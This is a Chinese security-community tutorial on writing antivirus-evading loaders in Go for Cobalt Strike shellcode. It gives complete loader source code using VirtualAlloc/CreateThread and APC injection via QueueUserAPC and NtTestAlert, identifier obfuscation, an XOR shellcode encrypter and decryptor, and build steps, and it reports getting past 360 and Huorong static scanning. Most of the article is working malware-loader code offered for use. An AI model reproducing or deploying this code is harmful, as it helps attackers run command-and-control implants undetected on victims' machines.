






# CS免杀如何从0到1-先知社区

> **来源**: https://xz.aliyun.com/news/18732  
> **文章ID**: 18732

---

# CS免杀如何从0到1

## Loader｜Shellcode 介绍

看了网上很多的免杀基本都是由 loader+shellcode 组成，这种免杀也比较简单，写个能免杀的 loader 然后对 shellcode 进行各种加密隐藏通过 loader 读取解密执行就行了。

shellcode 就是一段用于执行特定功能的机器码，一般是我们的恶意命令，也可以是上线 cs 的命令。

而 loader 加载器的核心步骤通常为：

* 读取 Shellcode：获取到我们的 shellcode
* 分配内存：在当前进程中申请一块可读、可写、可执行（RWX）的内存空间。
* 复制 Shellcode：将 Shellcode 数据复制到这块新分配的内存中。
* 执行 Shellcode：创建一个新的线程或通过其他方式，跳转到这块内存的起始地址开始执行。

## loader 学习

知道了上面 loader 的功能步骤，其实我们已经可以让 ai 给我们写个最简单的 loader 了（go 语言），

```
package main

import (
    "syscall"
    "unsafe"
)

func main() {
    // msfvenom -p windows/x64/exec CMD=calc.exe -f c
    shellcode := []byte{
        0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00,
        0x41, 0x51, 0x41, 0x50, 0x52,
        0x56, 0xe8, 0x71, 0x00, 0x00, 0x00, 0xff, 0xd5,
    }

    const (
        MEM_COMMIT             = 0x1000
        MEM_RESERVE            = 0x2000
        PAGE_EXECUTE_READWRITE = 0x40
    )

    // Windows API
    kernel32 := syscall.MustLoadDLL("kernel32.dll")
    virtualAlloc := kernel32.MustFindProc("VirtualAlloc")
    rtlMoveMemory := kernel32.MustFindProc("RtlMoveMemory")
    createThread := kernel32.MustFindProc("CreateThread")
    waitForSingleObject := kernel32.MustFindProc("WaitForSingleObject")

    // 1. 分配内存
    addr, _, _ := virtualAlloc.Call(
        0,
        uintptr(len(shellcode)),
        MEM_COMMIT|MEM_RESERVE,
        PAGE_EXECUTE_READWRITE,
    )

    // 2. 拷贝 shellcode 到分配的内存
    rtlMoveMemory.Call(
        addr,
        uintptr(unsafe.Pointer(&shellcode[0])),
        uintptr(len(shellcode)),
    )

    // 3. 创建线程执行 shellcode
    thread, _, _ := createThread.Call(
        0,
        0,
        addr,
        0,
        0,
        0,
    )

    // 4. 等待线程结束
    waitForSingleObject.Call(thread, 0xFFFFFFFF)
}

```

简单说就是依赖 VirtualAlloc, RtlMoveMemory，CreateThread 这些 windows api 来实现分配内存->将 shellcode放入内存中->让内存进行执行的功能。但是像 VirtualAlloc，CreateThread 这些 windows api 基本上刚传上去就被杀了，所以我们需要找一些不常见的同功能 windows api 进行代替，趁这些 windows api 还没有加入特征库来进行绕过。

参考：<https://xz.aliyun.com/news/18194> 的loader，看见还可以通过 APC 回调机制来执行 shellcode，主要利用的是 `QueueUserAPC + NtTestAlert` ，下面稍微修改了一下先看看这个 loader 能不能过 360（其实就是把 shellcode 部分先去掉了）

```
package main  
  
import (  
    "syscall"  
    "unsafe")  
  
func main() {  
  
    decrypted := []byte{  
       0x90, 0x90, 0x90, 0x90,  
       0xC3,  
    }  
  
    kernel32 := syscall.NewLazyDLL("kernel32.dll")  
    virtualProtect := kernel32.NewProc("VirtualProtect")  
    getProcAddress := kernel32.NewProc("GetProcAddress")  
    getModuleHandle := kernel32.NewProc("GetModuleHandleA")  
    queueUserAPC := kernel32.NewProc("QueueUserAPC")  
    getCurrentThread := kernel32.NewProc("GetCurrentThread")  
    var oldProtect uint32  
  
    _, _, _ = virtualProtect.Call(  
       uintptr(unsafe.Pointer(&decrypted[0])),  
       uintptr(len(decrypted)),  
       syscall.PAGE_EXECUTE_READWRITE,  
       uintptr(unsafe.Pointer(&oldProtect)),  
       uintptr(unsafe.Pointer(&oldProtect)),  
    )  
 
    ntdllHandle, _, _ := getModuleHandle.Call(uintptr(unsafe.Pointer(syscall.StringBytePtr("ntdll.dll"))))  
    ntTestAlertAddr, _, _ := getProcAddress.Call(ntdllHandle, uintptr(unsafe.Pointer(syscall.StringBytePtr("NtTestAlert"))))  
    
    currentThread, _, _ := getCurrentThread.Call()  
    _, _, _ = queueUserAPC.Call(  
       uintptr(unsafe.Pointer(&decrypted[0])),  
       currentThread,  
       0,  
    )  
  
    // 4. 调用 NtTestAlert 触发 APC 队列执行  
    syscall.Syscall(ntTestAlertAddr, 0, 0, 0, 0)  
}
```

最好是用命令行进行编译，执行 `go build test.go`，编译后得到 test.exe，但是看到 360 直接报毒了，



感觉用的 windows api 其实已经够少见了，那么接下来对代码函数名进行一下混淆，减少特征化，

```
package main

import (
    "syscall"
    "unsafe"
)

func main() {

    decrypted := []byte{
        0x90, 0x90, 0x90, 0x90,
        0xC3,
    }

    kernel32 := syscall.NewLazyDLL("kernel32.dll")
    sdfadfsdfavirtualdsdProtect := kernel32.NewProc("VirtualProtect")
    getPdsfsdrocAddress := kernel32.NewProc("GetProcAddress")
    getModuasfdasdfleHandle := kernel32.NewProc("GetModuleHandleA")
    queuessssdfUserAPC := kernel32.NewProc("QueueUserAPC")
    getCurrentsdfsadfThread := kernel32.NewProc("GetCurrentThread")
    var oldProtect uint32

    _, _, _ = sdfadfsdfavirtualdsdProtect.Call(
        uintptr(unsafe.Pointer(&decrypted[0])),
        uintptr(len(decrypted)),
        syscall.PAGE_EXECUTE_READWRITE,
        uintptr(unsafe.Pointer(&oldProtect)),
        uintptr(unsafe.Pointer(&oldProtect)),
    )

    ntdllHandle, _, _ := getModuasfdasdfleHandle.Call(uintptr(unsafe.Pointer(syscall.StringBytePtr("ntdll.dll"))))
    ntTestAlertAddr, _, _ := getPdsfsdrocAddress.Call(ntdllHandle, uintptr(unsafe.Pointer(syscall.StringBytePtr("NtTestAlert"))))

    currentThread, _, _ := getCurrentsdfsadfThread.Call()
    _, _, _ = queuessssdfUserAPC.Call(
        uintptr(unsafe.Pointer(&decrypted[0])),
        currentThread,
        0,
    )

    syscall.Syscall(ntTestAlertAddr, 0, 0, 0, 0)
}

```

同样编译扫描，看到 360 没有报毒了，



loader 解决了接下来就是 shellcode 的处理，

## shellcode 学习

利用 cs4.9 生成 raw 形式的木马，这个版本生成木马是具备一定免杀的，后面在进行一下加密就行了。



这里为了方便就采用文件分离式的了，也就是通过读取 shellcode 文件来进行加载，先写个文件读取函数，然后再添加异或加解密的功能，其实还可以添加一些没用的函数和变量起到一个混淆作用，

```
func dataProcessor(dataFilePath string) ([]byte, error) {  
    var uselessCounter int = 0  
    uselessCounter = uselessCounter + 1  
  
    var processingKey byte = 0xDE  
  
    rawData, err := ioutil.ReadFile(dataFilePath)  
    if err != nil {  
       var errorMessage string = "无法处理文件资源: " + err.Error()  
       fmt.Println(errorMessage)  
       return nil, fmt.Errorf("文件处理失败: %w", err)  
    }  
    if len(rawData) == 0 {  
       return nil, fmt.Errorf("文件资源为空")  
    }  
  
    processedData := make([]byte, len(rawData))  
    for i, b := range rawData {  
       processedData[i] = b ^ processingKey  
    }  
    var fakeString string = "not_a_key"  
    _ = strings.ToUpper(fakeString)  
  
    if uselessCounter == 1 {  
       // 无操作  
    }  
  
    return processedData, nil  
}
```

接着和上面的 loader 合在一起得到完整代码

```
package main  
  
import (  
    "fmt"  
    "io/ioutil"    "os"    "strings"    "syscall"    "unsafe")  
  
func dataProcessor(dataFilePath string) ([]byte, error) {  
    var uselessCounter int = 0  
    uselessCounter = uselessCounter + 1  
  
    var processingKey byte = 0xDE  
  
    rawData, err := ioutil.ReadFile(dataFilePath)  
    if err != nil {  
       var errorMessage string = "无法处理文件资源: " + err.Error()  
       fmt.Println(errorMessage)  
       return nil, fmt.Errorf("文件处理失败: %w", err)  
    }  
    if len(rawData) == 0 {  
       return nil, fmt.Errorf("文件资源为空")  
    }  
  
    processedData := make([]byte, len(rawData))  
    for i, b := range rawData {  
       processedData[i] = b ^ processingKey  
    }  
    var fakeString string = "not_a_key"  
    _ = strings.ToUpper(fakeString)  
  
    if uselessCounter == 1 {  
       // 无操作  
    }  
  
    return processedData, nil  
}  
func main() {  
    decrypted, err := dataProcessor("afsdfafsaf")  
    if err != nil {  
       fmt.Println("加载数据失败:", err)  
       os.Exit(1)  
    }  
  
    kernel32 := syscall.NewLazyDLL("kernel32.dll")  
    sdfadfsdfavirtualdsdProtect := kernel32.NewProc("VirtualProtect")  
    getPdsfsdrocAddress := kernel32.NewProc("GetProcAddress")  
    getModuasfdasdfleHandle := kernel32.NewProc("GetModuleHandleA")  
    queuessssdfUserAPC := kernel32.NewProc("QueueUserAPC")  
    getCurrentsdfsadfThread := kernel32.NewProc("GetCurrentThread")  
    var oldProtect uint32  
  
    ret, _, errCode := sdfadfsdfavirtualdsdProtect.Call(  
       uintptr(unsafe.Pointer(&decrypted[0])),  
       uintptr(len(decrypted)),  
       syscall.PAGE_EXECUTE_READWRITE,  
       uintptr(unsafe.Pointer(&oldProtect)),  
    )  
    if ret == 0 {  
       fmt.Printf("VirtualProtect 调用失败，错误码：%d
", errCode)  
       os.Exit(1)  
    }  
  
    ntdllHandle, _, _ := getModuasfdasdfleHandle.Call(uintptr(unsafe.Pointer(syscall.StringBytePtr("ntdll.dll"))))  
    ntTestAlertAddr, _, _ := getPdsfsdrocAddress.Call(ntdllHandle, uintptr(unsafe.Pointer(syscall.StringBytePtr("NtTestAlert"))))  
  
    currentThread, _, _ := getCurrentsdfsadfThread.Call()  
    _, _, _ = queuessssdfUserAPC.Call(  
       uintptr(unsafe.Pointer(&decrypted[0])),  
       currentThread,  
       0,  
    )  
  
    syscall.Syscall(ntTestAlertAddr, 0, 0, 0, 0)  
}
```

异或的加密脚本

```
package main  
  
import (  
    "fmt"  
    "io/ioutil"    "os")  
  
func main() {  
    if len(os.Args) < 3 {  
       fmt.Println("用法: encrypter <输入文件> <输出文件>")  
       return  
    }  
  
    inputFile := os.Args[1]  
    outputFile := os.Args[2]  
    key := byte(0xDE)  
  
    data, err := ioutil.ReadFile(inputFile)  
    if err != nil {  
       fmt.Printf("读取文件失败: %v
", err)  
       return  
    }  
  
    processedData := make([]byte, len(data))  
    for i, b := range data {  
       processedData[i] = b ^ key  
    }  
  
    err = ioutil.WriteFile(outputFile, processedData, 0644)  
    if err != nil {  
       fmt.Printf("写入文件失败: %v
", err)  
       return  
    }  
  
    fmt.Println("文件加密完成。")  
}
```

执行下面命令把 shellcode 进行加密

```
go run encrypter.go payload_x64.bin afsdfafsaf
```

接着把 loader 编译后把两个文件放在一起就行了。

## bypass

### 360





### 火绒

这个只能过火绒的静态检测，可以命令执行，但是上线会被内存检测检测出了，后面估计还得对 shellcode 进行实时内存加密或者自定义 shellcode，



## 总结

参考：<https://xz.aliyun.com/news/18194>

参考：<https://mp.weixin.qq.com/s/n5lUSFvpvAL2mzhTiq90pg>
